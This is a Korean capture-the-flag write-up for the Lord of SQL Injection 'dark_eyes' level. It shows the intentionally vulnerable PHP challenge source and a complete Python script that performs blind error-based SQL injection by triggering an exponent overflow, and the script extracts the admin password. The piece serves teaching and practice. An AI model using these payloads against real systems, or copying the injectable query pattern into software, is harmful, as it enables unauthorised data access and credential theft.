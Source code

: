 # Lord of SQL Injection No.22 - dark_eye

## 문제 출제 의도

Error return 코드 없이 Error based SQL Injection을 할 수 있는지 확인한다.

## 소스 코드 분석
```php
<?php
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/col|if|case|when|sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit();
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("dark_eyes");
  highlight_file(__FILE__);
?>
```
* preg_match 함수에서 pw의 문자열에서 `prob`,`_`,`.`,`()`,`col`,`if`,`case`,`when`,`sleep`,`benchmark`를 필터링한다.

* `if(mysql_error()) exit()`을 보니 error_code는 출력해주지 않는다.

* 입력한 pw의 값과 데이터베이스의 pw값이 일치해야 문제가 해결되는것을 보니 Blind SQL Injection임을 알 수 있다.

## 문제 해결 방안

* 지수 연산 최대치를 이용하여 문제를 해결한다.

* if문을 사용하면 안되므로 리턴값을 이용한 장난으로 풀어준다. 아래 소스코드의 주석에서 설명하겠다.

```python
import urllib.request   # python 라이브러리에 내장된 urllib.request 를 불러온다.
from urllib.parse import quote

result = "" # pw 값을 저장할 문자열 변수
length = 0;
A = 1
while A >0:
    url = "http://los.eagle-jump.org/dark_eyes_a7f01583a2ab681dc71e5fd3a40c0bd4.php?pw="
    add_url = "' or id='admin' and (((length(pw)={})+1)*9e307)-- -".format(str(A))
    # length(pw)={}가 성립할경우 1을 리턴하므로 +1을 해주고 *9e307을 하게되면 9e307*2와 같은 역할을 하고 그는 지수연산 최대치를 가르키므로 오류가 발생한다. 그를 이용하여 문제를 풀어나간다.
    add_url = quote(add_url)
    new_url = url + add_url
    re = urllib.request.Request(new_url)

    re.add_header("User-Agent", "Mozilla/5.0")
    re.add_header("Cookie", "PHPSESSID=ktfparn7mp86153smlme1jau10")

    res = urllib.request.urlopen(re)
    resA = res.read()
    if str(resA).find("query :") == -1: # error 코드를 반환해주지 않으므로 오류가 나지않으면 query : 가 나오므로 그것이 없을 때를 검사한다.
        length = A
        print("Length = {}".format(str(A)))
        break
    A=A+1 # length의 범위를 모르므로 while문으로 반복시키며 찾으면 break 해준다.
for i in range(1,A+1):
    for j in range(48,122):
        url = "http://los.eagle-jump.org/dark_eyes_a7f01583a2ab681dc71e5fd3a40c0bd4.php?pw="  # SQL Injection 공격 대상인 URL에서 변경되지 않는 부분이다.
        add_url = "' or id='admin' and (((substr(pw,1,{})='{}')+1)*9e307)-- ;".format(str(i), result+chr(j))
        # 위의 while문과 같이 substr(pw,1,{})='{}'가 성립할경우 1를 리턴하기 때문에 (1+1)*9e307이므로 지수연산 최대치를 이용한다.
        print("Searching.. - {0}{1}".format(url, add_url))
        add_url = quote(add_url)
        new_url = url + add_url
        re = urllib.request.Request(new_url)

        re.add_header("User-Agent","Mozilla/5.0")
        re.add_header("Cookie", "PHPSESSID=ktfparn7mp86153smlme1jau10")

        res = urllib.request.urlopen(re)
        resB = res.read()
        if str(resB).find("query :") == -1:
            result += chr(j).lower()
            print("Found it!! => " + result)
            break
print("Finished Searching.")
print("Password : " + result)
```

위의 코드를 실행 할 시에 5a2f5d3c를 출력해주므로 …?pw=5a2f5d3c를 하면 문제풀이에 성공한다.